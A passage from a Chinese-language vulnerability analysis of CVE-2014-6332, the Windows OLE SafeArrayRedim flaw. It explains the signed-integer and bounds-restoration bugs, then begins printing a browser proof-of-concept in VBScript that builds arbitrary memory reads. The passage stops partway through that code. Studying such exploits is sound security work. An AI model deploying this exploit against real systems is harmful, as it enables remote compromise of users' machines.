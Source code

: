 ```c++
LABEL_25:
              if ( psaa )
                v9->lpVtbl->Free(v9, psaa);
              return v5;
            }
          }
          return v5;
        }
      }
    }
  }
  return -2147024809;
}
```

从上面代码中，可以看出该漏洞成因主要有两点：

1. 本身数组结构中的元素个数`cElements`字段为无符号类型，而在处理新旧数组元素个数的时候却使用了有符号数来保存差值。这就导致了当新旧数组的元素个数的差值相差大于了`0x8000000`时，上面代码中的`v5`会将最高位的`1`解释成符号位，从而使得`v5`恒小于`0`，在后面判断中进入了错误的分支。
2. `SafeArrayRedim`在调整数组大小时，是先将`psaboundNew`结构赋值给`psa->rgsabound`，然后再去申请内存空间，但是如果内存申请失败，存在一个分支，会直接让函数返回而不对数组大小进行还原。使得原数组变成了一个超长数组，导致了任意地址的读写。

### 漏洞利用分析

完整poc如下：

```html
<!doctype html>
<html>
<title>CVE-2014-6332 POC</title>
<body>

<script LANGUAGE="VBScript">
dim   arrayA()
dim   arrayB()
dim   arraySize
dim   overSize
dim   index
dim   myarray

function Begin()
    On Error Resume Next
    BeginInit()

    If CreateArray() = True Then
        Trigger()
    end if
end function

function BeginInit()
    Randomize()
    redim arrayA(2)
    redim arrayB(2)
    arraySize = 5
    index = 2
end function

function readMemory(addr)
    On Error Resume Next
    redim  Preserve arrayA(overSize)
    arrayB(0) = 0
    arrayA(arraySize + 2) = addr + 4
    arrayB(0) = 1.69759663316747E-313
    readMemory = lenb(arrayA(arraySize + 2))
    arrayB(0) = 0
```